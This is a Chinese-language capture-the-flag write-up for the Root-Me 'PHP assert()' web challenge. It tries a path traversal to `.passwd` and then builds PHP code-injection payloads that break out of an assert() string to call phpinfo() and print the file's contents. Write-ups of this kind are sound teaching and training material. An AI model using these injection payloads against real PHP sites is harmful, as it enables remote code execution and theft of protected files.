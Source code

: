 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[PHP assert()](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)] [[解题报告](http://exp-blog.com/2019/01/02/pid-2679/)]

------

综合题型，做这题需要一定的 PHP 编程基础。此题全程使用 Burp Suite -> Repeater 工具方便调试 payloads 。

首先根据题意，可以知道目标是打开应用根目录下的 `.passwd` 文件。

搜索一下关于 PHP assert() 的语法，知道其函数定义为：

```php
// $assertion 为固定参数，如果它是字符串，它将会被 assert() 当做 PHP 代码来执行
// 亦即可以通过 assert() 注入 PHP 代码，这是这题的解题关键
bool assert ( mixed $assertion [, string $description ] )
```

点击挑战页面上的超链，发现 URL 上的请求参数会随之变化 `?page=${input}`，尝试直接打开 .passwd 文件，构造 GET 请求参数为 `?page=.passwd`，页面会回显报错：`'includes/.passwd.php'File does not exist` 。

![](http://exp-blog.com/wp-content/uploads/2019/01/3dc15ffed9be63d9c934cb857b981d35.png)

根据这个报错可以知道两个信息：

- 代码逻辑是在 `inlcudes` 目录下寻找目标文件
- GET 请求参数的拼接方式是 `'includes/${input}.php'`

为此尝试构造 GET 请求参数为 `?page=../.passwd` 进行路径穿越访问，出现检测到 hacking 的报错信息：

`Warning: assert(): Assertion "strpos('includes/../.passwd.php', '..') === false" failed in /challenge/web-serveur/ch47/index.php on line 8 Detected hacking attempt!`

![](http://exp-blog.com/wp-content/uploads/2019/01/c232ee0a73b0d77f2919411ed319df2e.png)

根据这个报错可以再推断两个信息：

- 这是 `assert()` 打印的
- 可以推断一部分的代码逻辑是这样的：
```php
// ${input} 是我们可以控制的注入位置
assert("strpos('includes/${input}.php', '..') === false")
```

又由于 `assert` 会把入参的字符串作为 PHP 代码执行，因此其中的 `strpos` 函数会被调用，而这个函数的作用明显是检测 `${input}` 中是否包含 `..` ，有则在页面报错 `Detected hacking attempt!`，为此可以进一步推测代码逻辑如下：

```php
if (assert("strpos('includes/${input}.php', '..') === false")) {
	// 正常代码
} else {
	// 异常代码：检测到路径穿越
	echo(${input} . " Detected hacking attempt!");
}
```

为了注入代码，先尝试绕过路径穿越的检测逻辑，为此构造 `${input}` 的 payloads 为 `','exp') || strpos('` 令到 `if` 条件恒真，于是发现新的报错信息 `'includes/','exp') || strpos('.php'File does not exist` 。

![](http://exp-blog.com/wp-content/uploads/2019/01/b058d22d2708fda931c3fd247f0bb382.png)

由此可以再进一步推断代码逻辑如下：

```php
if (assert("strpos('includes/${input}.php', '..') === false")) {
	$file = 'includes/${input}.php';
	if (exist($file)) {
		// 正常代码
	} else {
		// 异常代码：文件不存在
		echo($file . " File does not exist");
	}
} else {
	// 异常代码：检测到路径穿越
	echo(${input} . " Detected hacking attempt!");
}
```

至此只需要利用 `||` 逻辑增加 `if` 条件语句，就可以注入代码了。

首先构造 `${input}` 的 payloads 为 `','exp') || phpinfo() || strpos('` ，页面打印了 PHP 版本为 5.3.17，说明注入成功。

![](http://exp-blog.com/wp-content/uploads/2019/01/72490c3599fb7fa1e6d22ccf0a62713f.png)

而后只需要替换 `phpinfo()` 为查看 `.passwd` 内容的 PHP 语句，即可达到目的。

修改 payloads 为 `','exp') || file_get_contents("../.passwd") || strpos('`，尝试直接读取文件内容，却发现页面报错 `file_get_contents()` 函数无法找到文件。

![](http://exp-blog.com/wp-content/uploads/2019/01/af8a11ddc69cc177017be3a146592a63.png)

再次调整 payloads 为 `','exp') || file_get_contents(".passwd") || strpos('`，即去掉路径穿越，发现报错没有了，推断 `file_get_contents()` 函数是从 web 应用根目录开始找文件的。

![](http://exp-blog.com/wp-content/uploads/2019/01/77ab0b262593a5173fdf6a5956af6c10.png)

但是页面没有打印出 `.passwd` 文件的内容，说明还缺一个输出函数，此处使用 `print_r()` 函数（注意不能使用 `echo()`函数，因为它无返回值无法嵌入 `if`；也不能使用 `print()` 函数，因为它无法输出内容到页面）。

最终构造的 payloads 为：`','exp') || print_r(file_get_contents(".passwd")) || strpos('` 。

注入后得到 flag，完成挑战。

![](http://exp-blog.com/wp-content/uploads/2019/01/a6906b0416e3cc746b2135c3c0420185.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
